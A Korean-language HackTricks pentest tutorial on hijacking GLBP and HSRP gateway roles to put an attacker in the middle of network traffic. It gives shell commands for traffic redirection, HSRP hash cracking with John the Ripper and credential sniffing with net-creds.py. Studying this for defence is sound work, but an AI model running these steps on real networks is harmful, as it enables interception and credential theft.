 # GLBP & HSRP 공격

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로부터 영웅까지 AWS 해킹 배우기**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고**하거나 **HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 굿즈**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## FHRP 해킹 개요

### FHRP 통찰
FHRP는 여러 라우터를 하나의 가상 단위로 병합하여 네트워크 견고성을 제공하고 부하 분산 및 장애 허용성을 향상시키기 위해 설계되었습니다. Cisco Systems는 GLBP 및 HSRP와 같은 중요한 프로토콜을 이 스위트에 소개했습니다.

### GLBP 프로토콜 통찰
Cisco의 창작물인 GLBP는 TCP/IP 스택에서 작동하며 통신에 UDP 포트 3222를 사용합니다. GLBP 그룹의 라우터는 3초 간격으로 "hello" 패킷을 교환합니다. 라우터가 이러한 패킷을 10초 동안 보내지 않으면 오프라인으로 간주됩니다. 그러나 이러한 타이머는 고정되어 있지 않고 수정할 수 있습니다.

### GLBP 작동 및 부하 분산
GLBP는 단일 가상 IP와 여러 가상 MAC 주소를 사용하여 라우터 간에 부하를 분산하는 기능으로 두드러집니다. GLBP 그룹에서 각 라우터는 패킷 전달에 참여합니다. HSRP/VRRP와 달리 GLBP는 다음과 같은 여러 메커니즘을 통해 실제 부하 분산을 제공합니다:

- **호스트 종속 부하 분산:** 호스트에 일관된 AVF MAC 주소 할당을 유지하여 안정적인 NAT 구성에 필수적입니다.
- **라운드 로빈 부하 분산:** 요청하는 호스트 사이에서 AVF MAC 주소 할당을 번갈아가며 사용하는 기본 접근 방식입니다.
- **가중 라운드 로빈 부하 분산:** 미리 정의된 "가중치" 메트릭에 따라 부하를 분배합니다.

### GLBP의 주요 구성 요소 및 용어
- **AVG (Active Virtual Gateway):** MAC 주소를 동료 라우터에 할당하는 주요 라우터입니다.
- **AVF (Active Virtual Forwarder):** 네트워크 트래픽을 관리하는 라우터입니다.
- **GLBP 우선 순위:** AVG를 결정하는 메트릭으로, 기본값은 100이며 1에서 255 사이의 범위를 가집니다.
- **GLBP 가중치:** 라우터의 현재 부하를 반영하며, 수동으로 조정하거나 Object Tracking을 통해 조정할 수 있습니다.
- **GLBP 가상 IP 주소:** 모든 연결된 장치에 대한 네트워크의 기본 게이트웨이로 작동합니다.

상호 작용을 위해 GLBP는 예약된 멀티캐스트 주소 224.0.0.102와 UDP 포트 3222를 사용합니다. 라우터는 3초 간격으로 "hello" 패킷을 전송하며, 패킷이 10초 동안 누락되면 비운용 상태로 간주됩니다.

### GLBP 공격 메커니즘
공격자는 우선 순위 값이 가장 높은(255) GLBP 패킷을 보내어 주 라우터가 될 수 있습니다. 이로 인해 DoS 또는 MITM 공격이 발생할 수 있으며, 트래픽 가로채기 또는 리디렉션이 가능해집니다.

### Loki를 사용한 GLBP 공격 실행
[Loki](https://github.com/raizo62/loki_on_kali)는 우선 순위와 가중치가 255로 설정된 패킷을 주입하여 GLBP 공격을 수행할 수 있습니다. 공격 전 단계는 Wireshark와 같은 도구를 사용하여 가상 IP 주소, 인증 존재 여부 및 라우터 우선 순위 값을 수집하는 것입니다.

공격 단계:
1. Promiscuous 모드로 전환하고 IP 포워딩을 활성화합니다.
2. 대상 라우터를 식별하고 해당 IP를 검색합니다.
3. Gratuitous ARP를 생성합니다.
4. AVG를 흉내 내는 악의적인 GLBP 패킷을 주입합니다.
5. 공격자의 네트워크 인터페이스에 GLBP 가상 IP를 반영하는 보조 IP 주소를 할당합니다.
6. 완전한 트래픽 가시성을 위해 SNAT를 구현합니다.
7. 원래 AVG 라우터를 통해 계속된 인터넷 액세스를 보장하기 위해 라우팅을 조정합니다.

이러한 단계를 따라가면 공격자는 네트워크 트래픽을 가로채고 분석할 수 있는 "중간자"로 위치하게 됩니다. 이는 암호화되지 않거나 민감한 데이터를 포함한 네트워크 트래픽을 가로챌 수 있음을 의미합니다.

시연을 위해 필요한 명령어 스니펫은 다음과 같습니다:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### HSRP (Hot Standby Router/Redundancy Protocol)를 이용한 HSRP 하이재킹의 수동 설명과 명령어 세부 정보

#### HSRP 개요 (Hot Standby Router/Redundancy Protocol)
HSRP는 네트워크 게이트웨이의 여분 시스템을 위한 Cisco 독점 프로토콜입니다. 여러 물리적 라우터를 공유 IP 주소를 가진 단일 논리적 단위로 구성할 수 있습니다. 이 논리적 단위는 트래픽을 관리하는 주 라우터에 의해 관리됩니다. GLBP와 달리 우선순위 및 가중치와 같은 메트릭을 사용하는 대신 HSRP는 트래픽 관리를 위해 단일 활성 라우터에 의존합니다.

#### HSRP의 역할 및 용어
- **HSRP 활성 라우터**: 트래픽 흐름을 관리하는 게이트웨이로 작동하는 장치.
- **HSRP 대기 라우터**: 활성 라우터가 실패할 경우 대기하여 대체할 백업 라우터.
- **HSRP 그룹**: 단일 견고한 가상 라우터를 형성하기 위해 협력하는 라우터 집합.
- **HSRP MAC 주소**: HSRP 설정에서 논리적 라우터에 할당된 가상 MAC 주소.
- **HSRP 가상 IP 주소**: 연결된 장치를 위한 기본 게이트웨이 역할을 하는 HSRP 그룹의 가상 IP 주소.

#### HSRP 버전
HSRP에는 HSRPv1과 HSRPv2 두 가지 버전이 있으며 주로 그룹 용량, 멀티캐스트 IP 사용 및 가상 MAC 주소 구조가 다릅니다. 이 프로토콜은 서비스 정보 교환을 위해 특정 멀티캐스트 IP 주소를 활용하며, Hello 패킷은 3초마다 전송됩니다. 10초 간격 내에 패킷을 수신하지 않으면 라우터는 비활성으로 간주됩니다.

#### HSRP 공격 메커니즘
HSRP 공격은 최대 우선순위 값을 주입하여 활성 라우터의 역할을 강제로 인수하는 것을 포함합니다. 이는 중간자 공격을 유발할 수 있습니다. 필수적인 사전 공격 단계에는 HSRP 설정에 대한 데이터 수집이 포함되며, 이는 트래픽 분석을 위해 Wireshark를 사용하여 수행할 수 있습니다.

#### HSRP 인증 우회 단계
1. HSRP 데이터를 포함하는 네트워크 트래픽을 .pcap 파일로 저장합니다.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. hsrp2john.py를 사용하여 .pcap 파일에서 MD5 해시를 추출합니다.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. John the Ripper를 사용하여 MD5 해시를 해독합니다.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Loki를 사용한 HSRP Injection 실행**

1. HSRP 광고를 식별하기 위해 Loki를 실행합니다.
2. 네트워크 인터페이스를 Promiscuous 모드로 설정하고 IP 포워딩을 활성화합니다.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Loki를 사용하여 특정 라우터를 대상으로 설정하고 해독된 HSRP 암호를 입력하며 활성 라우터를 흉내내기 위한 필요한 구성을 수행합니다.
4. 활성 라우터 역할을 얻은 후 네트워크 인터페이스 및 IP 테이블을 구성하여 합법적인 트래픽을 가로챕니다.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. 라우팅 테이블을 수정하여 트래픽을 이전 활성 라우터를 통해 라우팅합니다.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. 가로챈 트래픽에서 자격 증명을 캡처하기 위해 net-creds.py 또는 유사한 유틸리티를 사용합니다.
```shell
sudo python2 net-creds.py -i eth0
```

이러한 단계를 실행하면 공격자가 GLBP 하이재킹과 유사한 방식으로 트래픽을 가로채고 조작할 수 있는 위치에 있게 됩니다. 이는 HSRP와 같은 여분 프로토콜의 취약성을 강조하며 견고한 보안 조치의 필요성을 강조합니다.
